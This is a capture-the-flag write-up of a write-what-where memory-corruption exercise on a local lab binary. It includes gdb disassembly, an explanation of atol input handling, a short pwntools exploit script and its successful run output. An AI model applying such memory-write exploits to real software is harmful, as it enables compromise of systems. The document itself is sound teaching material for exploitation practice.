 # 08_www_var Writeup

## Steps:
1. Run chall. In this challenge, the goal is to change the value of a variable at a specific address to 0xdeadc0de.
We are asked what we want to write and where to write it to, but are warned that the solution is not trivial.
```
$ ./chall 

Your goal is to modify the variable @ 0x7fffb6e517c8 to equal 0xdeadc0de

This is a write-what-where exercise, and should not be trivial. This primitive is usually
leveraged to overwrite entries on the GOT, or any writiable region of memory in the binary!

0x7fffb6e517a0: 0x0000000000000000 0x0000000000000000 
0x7fffb6e517b0: 0x0000000000000000 0x0000000000000000 
0x7fffb6e517c0: 0xffffffffffffffff 0x00000000deadbeef 

What would you like to write? AAAA
Where would you like to write it? AAAA
zsh: segmentation fault  ./chall
```
2. Since we are given `what` to write and `where`, we can use `recv` to collect the address of `where` and `0xdeadc0de` as `what`.
3. But, just printing these values still leads to a seg fault. This is where we remember that we are warned the solution is not trivial.
So `disas main` using gdb gef. Notice after `fgets` the program uses `atol`.

```
   0x0000000000401702 <+284>:   call   0x401100 <fgets@plt>
   0x0000000000401707 <+289>:   lea    rax,[rbp-0x30]
   0x000000000040170b <+293>:   mov    rdi,rax
   0x000000000040170e <+296>:   call   0x401110 <atol@plt>
   0x0000000000401713 <+301>:   mov    QWORD PTR [rip+0x299e],rax        # 0x4040b8 <val>
   0x000000000040171a <+308>:   lea    rdi,[rip+0xa87]        # 0x4021a8
   0x0000000000401721 <+315>:   mov    eax,0x0
```
Check the man pages if you don't know what atol does.
```
long atol(const char *nptr);

DESCRIPTION
       The  atoi()  function converts the initial portion of the string pointed to by nptr to int.  The behavior is
       the same as

           strtol(nptr, NULL, 10);

       except that atoi() does not detect errors.

       The atol() and atoll() functions behave the same as atoi(), except that they convert the initial portion  of
       the string to their return type of long or long long.

RETURN VALUE
       The converted value or 0 on error.
```
This means that the input we provide is converted from a string into a long integer. 
Thus, we cannot simply write the hex values; they must be strings that can be converted into decimal values equivalent to the hex values.

4. Write the payloads.
   
   what -  `0xdeadc0de` converted to an `int` then `str`
   
   where - address in hex converted to an `int` then `str`
```
from pwn import *

target = process('./chall')

val = int("0xdeadc0de", 16)
target.recvuntil(b"variable @ ")
addr  = target.recvuntil(b" ", False)
addr = int(addr, 16)


target.sendline(str(val))
target.sendline(str(addr))

s = target.recvall().decode()
print(s)
```

## Solution:
```
$ python3 exploit.py
[+] Starting local process './chall': pid 106852
/home/kali/Binex-Writeups/binex_tuts/08_www_var/exploit.py:11: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline(str(val))
/home/kali/Binex-Writeups/binex_tuts/08_www_var/exploit.py:12: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline(str(addr))
[+] Receiving all data: Done (774B)
[*] Process './chall' stopped with exit code 1 (pid 106852)
to equal 0xdeadc0de

This is a write-what-where exercise, and should not be trivial. This primitive is usually
leveraged to overwrite entries on the GOT, or any writiable region of memory in the binary!

0x7ffcb67a3570: 0x0000000000000000 0x0000000000000000 
0x7ffcb67a3580: 0x0000000000000000 0x0000000000000000 
0x7ffcb67a3590: 0xffffffffffffffff 0x00000000deadbeef 

What would you like to write? Where would you like to write it? 
0x7ffcb67a3570: 0x3633333237303431 0x0a38363538343939 
0x7ffcb67a3580: 0x0000000000000000 0x0000000000000000 
0x7ffcb67a3590: 0xffffffffffffffff 0x00000000deadc0de

Congrats! You modified the target variable!
```
